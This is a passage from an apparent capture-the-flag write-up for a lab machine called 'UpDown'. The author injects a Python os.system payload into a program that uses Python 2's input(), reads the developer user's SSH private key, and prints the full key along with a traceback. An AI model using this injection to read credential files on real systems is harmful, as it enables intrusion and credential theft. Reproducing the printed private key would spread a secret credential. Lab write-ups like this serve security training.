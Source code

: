 Now I injected a command to get the SSH key of the user `developer` and connected via SSH and got the user flag!

```bash
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
Enter URL here:Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
Welcome to 'siteisup.htb' application

www-data@updown:/home/developer/dev$ 
```
